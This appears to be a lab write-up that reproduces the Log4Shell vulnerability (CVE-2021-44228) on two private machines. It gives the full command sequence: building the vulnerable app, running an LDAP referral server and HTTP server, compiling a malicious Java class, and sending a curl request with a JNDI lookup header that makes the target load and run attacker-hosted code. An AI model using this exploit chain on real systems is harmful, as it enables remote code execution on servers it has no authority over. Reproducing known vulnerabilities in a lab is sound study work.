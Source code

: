 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use these documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 attacker machine and vulnerable machine. Firstly i am starting to install docker on that machine.

#### **Docker İnstall On The Vulnerable Machine (10.250.1.60)**


- `sudo apt update`
- `sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
- `curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
- `sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
- `sudo apt update`
- `sudo apt-get install docker-ce`
- `docker --version`
- `sudo systemctl start docker`
- `sudo systemctl enable docker`
- `sudo systemctl status docker`

![Image](/img/docker.png)

#### **Installing Vulnerable Machine (10.250.1.60)**

- `cd /tmp`
- `sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
- `cd log4shell-vulnerable-app/`
- `sudo docker build . -t vulnerable-app`
- `sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## **Prepare Attacker Machine (10.250.1.61)**

#### **Install Java JDK On the Attacker Machine**

- `cd /tmp`
- `sudo apt update`
- `sudo apt-get install default-jdk`
- `wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
- `tar zxvf jdk-8u181-linux-x64.tar.gz`
- `sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
- `sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
- `sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
- `sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
- `sudo update-alternatives --config java` **choose the 1.8.0_181**
- `sudo update-alternatives --config javac`
- `sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

- `echo $JAVA_HOME`

- `java -version`

![Image](/img/java_ver.png)

---

#### **Prepare LDAP Referrer Server on The Attacker**

- `cd /tmp`
- `sudo apt install maven`
- `git clone https://github.com/mbechler/marshalsec`
- `cd /tmp/marshalsec`
- `sudo mvn clean package -DskipTests`
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### **Prepare Malicious Java Code On The Attacker**

- `mkdir /tmp/poc`
- `cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- `javac Log4jRCE.java`

- `sudo python3 -m http.server`

![Image](/img/javac.png)

#### **Exploit The Target Machine From The Attacker**

![Image](/img/exploitt.png)

- `curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

#### **Verify on the Victim Machine wheater code execution**

- `sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

